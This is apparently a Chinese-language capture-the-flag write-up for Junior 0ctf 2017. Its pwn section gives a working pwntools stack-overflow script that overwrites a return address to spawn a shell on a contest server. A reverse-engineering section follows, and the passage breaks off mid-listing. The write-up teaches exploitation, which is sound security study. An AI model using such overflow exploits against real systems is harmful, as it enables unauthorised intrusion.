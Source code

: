 ```yaml
---
title: Wirteup - Junior 0ctf 2017
categories: [Security]
tags: [ctf]
date: 2017-12-18T00:00:00+08:00
---
```


## PWN

### seabreeze's stack

栈溢出题目，直接在IDA中可以看到缓冲区相对于栈基址的偏移：`bp-3FCH`，然后可以看到题目中有一`getshell()`函数，其地址为`0x080485CB`。

覆盖原本的函数返回地址为`getshell()`的地址，利用以下脚本获取shell：

``` python
from pwn import *

conn = remote('202.121.178.181', '12321')
print conn.recvline()
conn.sendline('Yes!')
print conn.recvline()
conn.sendline('Yes!!')
print conn.recvline()
conn.sendline('Yes!!!')

shell_addr = 0x080485cb

payload = 'a'*0x3fc + 'bbbb' + p32(shell_addr)

conn.sendline(payload)
conn.interactive()
```

随后可以读flag。

## REVERSE

### babyre

利用`uncompyle2`工具可以直接获得pyc文件对应的py代码：

``` python
from hashlib import md5

def md5raw(s):
    return bytearray(md5(s).digest())

def xor(a, b):
    assert len(a) == len(b)
    return bytearray([ i ^ j for i, j in zip(a, b) ])


flag = bytearray(raw_input('Show me your flag: '))
assert len(flag) == 32
for i in range(16):
    flag[:16] = xor(flag[:16], md5raw(flag[16:]))
    flag[:16], flag[16:] = flag[16:], flag[:16]

if flag == '\xa5\xc6\xe6\xeca\x0c:ED\xed#\x19\x94LF\x11\x17\xc4.\xeb\xa1\xc2|\xc1<\xa9\\A\xde\xd22\n':
    print 'Right!'
else:
```